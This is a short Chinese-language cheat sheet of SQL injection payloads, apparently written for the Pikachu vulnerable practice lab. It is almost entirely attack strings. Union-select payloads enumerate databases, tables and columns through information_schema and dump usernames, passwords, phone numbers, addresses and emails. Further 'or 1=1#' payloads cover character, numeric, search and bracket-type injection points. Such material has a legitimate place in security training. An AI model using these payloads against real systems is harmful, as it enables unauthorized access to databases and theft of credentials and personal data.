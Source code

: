 
查询数据库及表
```
-- 查询有哪些数据库
1' union select 1,group_concat(SCHEMA_NAME) from information_schema.SCHEMATA#
-- 查询某个数据库有哪些表
1' union select table_name,table_schema from information_schema.tables where table_schema='pikachu'#
1' union select 'pikachu',group_concat(table_name) from information_schema.tables where table_schema='pikachu'#
-- 查询某个表有哪些列
1' union select 'member',group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_SCHEMA ='pikachu' and TABLE_NAME ='member'#
-- 查询表中一些列的数据
1' union select username,pw from member#
1' union select id,CONCAT_WS('#',username,pw,sex,phonenum,address,email) from member#
```

## 字符型注入

**正常**

输入`vince`可以查询到输入。

**注入**

输入`1' or 1=1#`可以查询到全部的数据。

**union select**

查询`users`表中的数据
```
-- 只查询users表
1' and 1=1 union select username,password from users#
' union select username,password from users#
-- 查询原始表和users表
1' or 1=1 union select username,password from users#
```

## 数字型注入

```
1 or 1=1#
```

## 搜索型

```
%' or 1=1#
```

## xx型

```
') or 1=1#
```
